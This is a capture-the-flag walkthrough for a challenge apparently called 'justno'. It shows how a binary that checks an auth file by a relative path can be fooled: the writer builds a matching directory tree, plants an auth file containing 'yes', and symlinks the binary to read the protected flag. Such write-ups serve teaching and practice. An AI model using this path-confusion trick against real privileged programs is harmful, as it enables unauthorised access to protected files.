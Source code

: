 First of all move to the correct directory by using the *cd* command:
```bash
cd /problems/579fe8ee083cd54f55718c1324687c74
```

Here we find 4 different files by writing **ls**.
The most interesting file is the **C-file**, which we can read by writing:
```bash
cat justno.c
```

In the code we can see that they are mixing relative and exact positions.
```c
Line 8:
../../problems/579fe8ee083cd54f55718c1324687c74/auth

Line 18:
/problems/579fe8ee083cd54f55718c1324687c74/flag
```

This means that one of the files could change without affecting the other one.
This could be abused in some situations, which is exactly what we will do.

Let's go back to our home directory by running the *cd* command without arguments:
```bash
cd
```

Then we will create a folder-structure matching the relative link in the code.
home  
|  problems  
|     579fe8ee083cd54f55718c1324687c74  
|        auth  
+- a  
      b  
         justno  

*auth* should be a file containing anything other than the text 'no' according to the previous code.
*justno* should be the binary file associated with the *C-file*.
We can however not compile it on our own since then it won't have the correct rights.
The same problem applies if we try to copy the first file.
So what we have to do is to create a symbolic link to the file. This is done by using the *cp* command with the *-s* attribute.

We do this by entering the following commands:
```bash
mkdir a problems
mkdir a/b
mkdir problems/579fe8ee083cd54f55718c1324687c74

echo "yes" > problems/579fe8ee083cd54f55718c1324687c74/auth
cd a/b
cp -s /problems/579fe8ee083cd54f55718c1324687c74/justno ./
./justno
```
